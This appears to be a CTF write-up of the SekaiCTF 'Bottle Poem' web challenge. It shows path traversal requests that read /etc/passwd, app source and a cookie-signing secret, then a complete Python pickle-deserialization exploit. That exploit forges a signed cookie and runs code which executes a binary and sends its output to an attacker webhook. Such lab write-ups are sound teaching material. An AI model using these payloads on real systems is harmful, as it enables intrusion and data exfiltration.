 ```yaml
---
layout: post
current: post
cover:  False
navigation: True
title: "Bottle Poem"
date: 2022-11-03 10:00:00
tags: [SekaiCTF, web]
class: post-template
subclass: 'post'
author: Ace314159
---
```


For this web challenge, we had to utilize two different exploits to get the flag -- and one of them wasn't a web exploit!

## Setup

We're presented with a website where we can select different poems to view. When we click on a poem, we can see that the URL contains the name of a text file: `/show?id=spring.txt`.

## Local File Inclusion (LFI)

The first thing that comes to mind when we can access arbitrary files on a web server is Local File Inclusion (LFI). We tried it out by trying to access /etc/passwd `/show?id=../../etc/passwd`. We were successful! 

Next, we wanted to get the source code of the website for further analysis of where the flag could be. After some Googling, we found that we can read the `/proc/self/cmdline` file to get the command line arguments of the current process. This yielded `"python3", "-u", "/app/app.py"`. Thus, we can access `app.py` using `/show?id=../../app/app.py`, giving us this file:

```python
from bottle import route, run, template, request, response, error
from config.secret import sekai
import os
import re


@route("/")
def home():
    return template("index")


@route("/show")
def index():
    response.content_type = "text/plain; charset=UTF-8"
    param = request.query.id
    if re.search("^../app", param):
        return "No!!!!"
    requested_path = os.path.join(os.getcwd() + "/poems", param)
    try:
        with open(requested_path) as f:
            tfile = f.read()
    except Exception as e:
        return "No This Poems"
    return tfile


@error(404)
def error404(error):
    return template("error")


@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=sekai)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=sekai)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"


if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="0.0.0.0", port=8080)
```

## Getting Trolled

The code shows that there's an admin template that only an admin user can access. However, since we have LFI, we can just access the template directly: `/show?id=../../app/views/admin.html`. This gives us the template

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Sekai's boooootttttttlllllllleeeee</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="text-white bg-zinc-800 container px-4 mx-auto text-center h-screen box-border flex justify-center item-center flex-col">
    Hello, you are {{name}}, but it’s useless.
</body>
</html>
```

No flag :(

## Pickle Fun

We had to keep looking. The next thing that came to mind was seeing if we could control the `session` variable. This wouldn't help us with the admin page, since we already know the admin template is useless, but maybe we can do something else with it. Looking at the source of `get_cookie`, we see that it calls `cookie_decode`, which looks like this:

```python
def cookie_decode(data, key):
    ''' Verify and decode an encoded string. Return an object or None.'''
    data = tob(data)
    if cookie_is_encoded(data):
        sig, msg = data.split(tob('?'), 1)
        if _lscmp(sig[1:], base64.b64encode(hmac.new(tob(key), msg, digestmod=hashlib.md5).digest())):
            return pickle.loads(base64.b64decode(msg))
    return None
```

`pickle`! The code uses pickle to load arbitrary data from the cookie. This gives us Remote Code Execution (RCE), which we can use to search for the flag. The way we can get RCE using pickle is by pickling a class with the `__reduce__` method. It returns a tuple, where the first value is a function, and the second value is the arguments passed into the function. When `pickle.loads` is called, it will call the function with the arguments. We can use this in conjunction with the python `exec` function to get RCE.

Our final exploit just runs the flag executable (which we found using the same exploit strategy), and then sends the output as a payload to a webhook URL we control. (You can create webhook URLs with a site like [RequestBin](https://requestbin.com/).) Here's the class that we used in our final exploit:

```python
code = """
import urllib.request
import os
import subprocess

path = os.path.join(os.getcwd(), "../flag")
try:
    data = str(subprocess.run([path], capture_output=True)).encode("utf-8")
except Exception as e:
    data = str(e).encode("utf-8")

req = urllib.request.Request(WEBHOOK_URL, data=data)

urllib.request.urlopen(req)
"""

class RCE:
    def __reduce__(self):
        return exec, (code,)
```


However, before we get RCE on the server, we need to find the secret the session cookie is encrypted with. Without that, we can't change the cookie. The secret is imported at the top of the web server file, so could we just load the imported file using LFI? Let's take a look at `/show?id=../../app/config/secret.py`:

```python
sekai = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"
```

Perfect! Now we just have to construct our payload! Looking near `cookie_decode`, we see `cookie_encode`, which looks like this:

```python
def cookie_encode(data, key):
    ''' Encode and sign a pickle-able object. Return a (byte) string '''
    msg = base64.b64encode(pickle.dumps(data, -1))
    sig = base64.b64encode(hmac.new(tob(key), msg, digestmod=hashlib.md5).digest())
    return tob('!') + sig + tob('?') + msg
```

After stealing that code, we can complete our exploit.

```python
data = RCE()

msg = base64.b64encode(pickle.dumps(data, -1))
sig = base64.b64encode(hmac.new(tob(secret), msg, digestmod=hashlib.md5).digest())
print(tob('!') + sig + tob('?') + msg)
```

And we have the flag! Here's the full code:

```python
code = """
import urllib.request
import os
import subprocess

path = os.path.join(os.getcwd(), "../flag")
try:
    data = str(subprocess.run([path], capture_output=True)).encode("utf-8")
except Exception as e:
    data = str(e).encode("utf-8")

req = urllib.request.Request(WEBHOOK_URL, data=data)

urllib.request.urlopen(req)
"""


class RCE:
    def __reduce__(self):
        return exec, (code,)


data = RCE()

msg = base64.b64encode(pickle.dumps(data, -1))
sig = base64.b64encode(hmac.new(tob(secret), msg, digestmod=hashlib.md5).digest())
print(tob('!') + sig + tob('?') + msg)
```

Flag: `SEKAI{W3lcome_To_Our_Bottle}`